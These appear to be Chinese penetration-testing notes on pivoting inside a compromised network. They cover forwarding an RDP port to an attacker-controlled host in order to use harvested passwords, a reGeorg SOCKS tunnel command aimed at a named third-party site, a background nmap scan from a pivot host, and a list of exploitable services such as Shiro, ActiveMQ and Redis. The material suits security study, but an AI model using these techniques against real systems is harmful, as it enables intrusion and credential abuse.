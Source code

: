 在写之前我们需要明确一点，就是我们所需要的内网目标是什么？
而内网穿透和内网代理的分别在哪里？
在什么情况我们需要做内网穿透，什么时候我们需要做内网代理？

```bash
python3 reGeorgSocksProxy.py -p 9999 -l 0.0.0.0 -u https://www.pgyer.com/tunnel.nosocket.php
```

内网穿透就是针对一个机器下的某一个特定端口，通过流量转发的形式把端口暴露在公网上，举个例子，我们拿下了一个linux机器，很巧这个机器是运维机器，我们发现了大量的运维账号密码。
又然后，发现windows的远程登录服务即3389端口，所以我们在这个时候可以使用端口服务转发的技巧，把端口流量转发到一个我们可控公网的端口上（如33890），那么我们在对我们自己可控公网的端口上进行数据请求的时候，就是在对这个windows机器的数据请求，所以我们可以很轻松的使用我们的到的账号和密码来连接对应的windows机器。

所以我们做内网穿透的最终目的，很显然是：
我们在已知某个内网服务器的敏感信息（如3389远程连接账号密码、3306连接账号密码），而我们在内网又无法使用windows机器远程连接、mysql-client软件对我们所得到的信息进行明确验证时，那么这个时候我们可以使用内网穿透即流量转发的手段来进行进一步验证。

### 1x04：内网信息搜集技巧
#### # nmap
由此拿到web服务器的权限后，msf死活都连不上，就无法进行内网扫描，查资料后可以：

- 跳板机（非root权限）本地编译安装nmap：

```bash
wget https://nmap.org/dist/nmap-7.40.tar.bz2
bzip2 -cd nmap-7.40.tar.bz2 | tar xvf -
cd nmap-7.40
./configure
echo $?
make && make install
noohup ./nmap -p- -T4 -A 192.168.0.0/24 &
```

- Cobalt Strike 插件扫描

## 二：典型案例剖析

- Elastic Search
    - RCE
    - 敏感信息
    - nday...
- Zabbix
    - 弱口令
    - SQL注入
    - nday...
- ActiveMQ
    - basic认证弱口令
    - ActiveMQ 反序列化漏洞（CVE-2015-5254）
    - PUT & MOVE方法写入shell
- Hystrix
    - ssrf
        - http://ip:6855/proxy.stream?origin=http://www.baidu.com
- redis
    - 未授权写入crontab计划
- shiro
    - shiro550 & 721 rememberMe反序列化
- struts2
    - s2-{01-61}
- ...
其实总结下来内网里有很多可以利用的，还是要具体问题具体分析才能更好的在内网“遨游”。

